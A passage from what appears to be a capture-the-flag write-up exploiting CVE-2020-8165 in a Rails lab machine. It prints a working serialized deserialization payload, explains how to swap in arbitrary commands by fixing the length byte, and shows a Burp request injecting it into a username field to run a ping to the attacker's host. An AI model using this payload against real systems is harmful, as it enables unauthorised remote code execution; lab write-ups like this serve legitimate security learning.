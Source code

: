 #### Modifying POC

I can get to the same result with a little bit of understanding of how serialized objects tend to work. The output from [the POC on GitHub](https://github.com/masahiro331/CVE-2020-8165) with a payload of `touch /tmp/rce` was this:

```

%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T

```

I’m particularly interesting in the part around the command:

```

srcI%22%15%60touch+%2Ftmp%2Frce%60

```

A serialized payload often includes the length of the object and the contents. So I’d expect something that’s related to length (in this case 14 bytes), which could be that 0x22 or 0x15. In the payload I generated with `ping`, the payload was 21 characters long, and the 0x15 byte is not an 0x1c, where the 0x22 is unchanged. It looks like that 0x15 or 0x1c is the length of the given string plus 7.

Now I can generate new payloads by replacing the command string and the length byte (after adding 7).

### Deploy

Now I’ll head to the change username page on the site. To ensure that Firefox doesn’t encode anything, I’ll use Burp to intercept the POST request and change the username there:

```

POST /users/18 HTTP/1.1
Host: 10.10.10.211:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.211:8080/users/18/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Connection: close
Cookie: _session_id=9cad63cc9ba727f097eea89d0897a5c6
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&_method=patch&authenticity_token=dEbIRH3%2Bo0wlnp9yujf6GjqArxu33QV7eT1RpcmHIZGOnuWpJvYG%2BUFvZOupB87GfoXq9Hm%2B9MP7CVK9bf1FIA%3D%3D&user%5Busername%5D=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%1C%60ping+-c+1+10.10.14.19%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T&commit=Update+User

```
